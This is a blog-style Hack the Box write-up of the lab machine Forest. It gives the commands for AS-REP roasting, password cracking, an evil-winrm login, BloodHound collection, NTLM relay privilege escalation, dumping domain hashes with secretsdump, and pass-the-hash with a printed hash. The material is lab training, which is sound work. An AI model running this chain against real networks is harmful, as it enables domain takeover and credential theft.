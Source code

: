 +++
author = "Nick"
categories = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
date = 2020-03-21T11:26:04Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/forest.png"
slug = "hack-the-box-forest"
summary = "Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!"
tags = ["hack the box", "RPC", "evil-winrm", "impacket", "ntlm relay", "bloodhound", "pass the hash", "windows", "Powershell"]
title = "Hack the Box - Forest"

+++


Welcome back everyone. Today we will be doing the Hack the Box machine Forest. The box is listed as an easy Windows box. Let's jump in!

As normal, we kick it off with an ```nmap``` scan: ```nmap -sC -sV -oA initial_scan 10.10.10.161```

Here are our results:
```
Nmap scan report for 10.10.10.161
Host is up (0.15s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-10 14:45:10Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/10%Time=5DEFADE2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h46m50s, deviation: 4h37m10s, median: 6m48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2019-12-10T06:47:44-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-10T14:47:41
|_  start_date: 2019-12-10T05:12:53

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 307.76 seconds
```

We initially see ```LDAP```, ```Kerberos``` and ```SMB``` ports available. Let's see what might be shared on ```SMB```. Repeating the scan again with ```-p-``` gives us some additional ports as well. Most notabled ```5985```.

A quick ```SMBMap``` gives us access denied. Next we'll try to gain access via ```RPCclient```: ```rpclient -U "" -N 10.10.10.161```. This gives us access, we can enumerate users this way using ```enumdomusers``` within our connection:

![](/images/2019/12/rpcclient.gif)

We can take those and paste them into a file called ```users.txt```. Now we want to remove all the junk and essentially keep the usernames. A quick one liner: 

```cat users.txt | cut -d "[" -f2 | cut -d "]" -f1 > trimmed_users.txt```.

Now that we have a list of users. We could try a few things bruteforce, kerberoasting or AS-REP Roast. Lucky for us ```impacket```  gives us the tools to try all of these out. 

At the time of writting this, the current version of ```Impacket``` on Kali is 9.18 which does NOT support userfiles command. You'll need to add a username one at a time. You can also copy the updated script from [here](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) and use that. 

First we'll use ```GetNPUsers.py``` to see if any users have ```DONT_REQ_PREAUTH``` enabled. If we find some, we can use AS-REP to obtain some leverage.

Command:
```./GetNPUsers.py htb/ -userfile trimmed_users.txt -format john -dc-ip 10.10.10.161```

A breakdown of the above command. The ```htb/``` is our domain. ```-usersfile``` is the file we created earlier. ```-format john``` means we want to output our format for easy cracking in ```John```. Lastly, ```-dc-ip``` is our target Domain Controller, in this case, our target.

![](/images/2019/12/pre_auth.gif)

Now that we have a username and hash, we can crack it in ```John```. We issue ```John --wordlist=/usr/share/wordlists/rockyou.txt vuln_users.txt``` to get the cracking going. Shortly we have a result: ```s3rvice```.

![](/images/2019/12/image-13.png)

Now that we have a set of credentials, we can look to use those. Our earlier enumeration showed us that we could leverage ```Win-RM``` on port ```5985```. So we'll do just that. We'll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and start enumerating further.

Command:
```evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'```

![](/images/2019/12/winrm_user.gif)

Now that we have a shell and we have access to the ```user.txt``` flag. Onto root! We can start enumerating internally. We do the normal groups and user checks with ```systeminfo```, ```net user svc-alfresco``` and ```net group``` to start. Here is a quick link to some enumeration methods for Windows machines: [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#user-enumeration).

We see that there are exchanges groups listed on the system. To better help visualize the path we want to take to domain admin, we can use [```Bloodhound```](https://github.com/BloodHoundAD/BloodHound/wiki/getting-started). If you're a Kali user you can simply ```apt get install Bloodhound```. Otherwise, follow the directions on the Github.

Once installed, we need to leverage SharpHound.ps1 to gain data. We find that script [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1). Upload that file via ```Evil-WinRM```. 

Command:
```upload /root/Tools/SharpHound.ps1 C:\Users\svc-alfresco\Documents```

![](/images/2019/12/image-15.png)

Import the module into our Powershell prompt:

```import-module .\SharpHound.ps1```

Then run ```invoke-bloodhound -CollectionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice```.

This will compile all sorts of AD data into a zip file for us to download. Once downloaded, upload the data into ```Bloodhound```. We can then filter by 'Highest Value Target' and start narrowing down a path to take based on our previous research.

![](/images/2019/12/image-14.png)

Based on our above breakdown we can see that we have the ability to write to the ```Exchange Windows Permissions``` group. So we'll want to add ourselves to that group.

Command:
```net group "Exchange Windows Permissions" svc-alfresco /ADD```

Once we are part of that group we can try to escalate our privileges based on [this research](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

So we'll spin up our ```NTLM Relay```:

Command:
```ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco```

Then we can browse to our ip and authenticate with ```svc-afresco``` credentials.

![](/images/2019/12/ntlm_relayed.gif)

After a few resets on the box and switching from EU to US a few times, it finally worked. We now can dump some secrets.

Command:
```python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc```

This kicks out a whole bunch of hashes. So our goal is to pass the hash as administrator for a shell.

![](/images/2019/12/image-18.png)

To do this we'll use ```wmiexec.py```.

Command:
```python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161```

![](/images/2019/12/root_again.gif)

There we have it, our root shell with flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

